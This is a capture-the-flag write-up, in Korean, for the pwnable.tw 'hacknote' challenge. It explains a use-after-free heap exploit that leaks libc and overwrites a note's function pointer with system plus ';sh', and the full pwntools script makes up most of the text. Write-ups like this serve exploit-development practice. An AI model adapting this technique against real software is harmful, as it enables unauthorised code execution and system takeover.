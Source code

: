 ```yaml
---
title: "[pwnable.tw]hacknote"
date: 2020-2-19
ctf: Pwnable.tw
layout: post
published : false
---
```


uaf 취약점을 이용해서 풀 수 있다. 우선 언솔빈으로  libc leak해주고 malloc 2번 되는데 첫번째 malloc 해주는 곳에 함수 포인터가 들어가는데 uaf로 함수포인터에 system주소를 넣고 뒤에 인자로 sh을 넣어주면 된다. 그리고 print_note로 함수 포인터를 실행시켜주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./hacknote')
#p = process('./hacknote')
p = remote('chall.pwnable.tw',10102)
libc = ELF('./libc_32.so.6')
#libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def add_note(size,content):
	sa(':','1')
	sa(':',str(size))
	sa(':',content)

def del_note(idx):
	sa(':','2')
	sa(':',str(idx))

def print_note(idx):
	sa(':','3')
	sa(':',str(idx))

add_note(0x80,'AAAA')
add_note(0x80,'BBBB')
del_note(0)
add_note(0x20,'CCCC')
print_note(0)

p.recvuntil('CCCC')
libc_base = u32(p.recv(4)) - (0x1b0780+176) # main_arena + 176
log.info('libc_base : {}'.format(hex(libc_base)))

add_note(0x20,'DDDD')
del_note(2)
del_note(3)
add_note(8,p32(libc_base + libc.symbols['system']) + ";sh")

print_note(0)

p.interactive()
```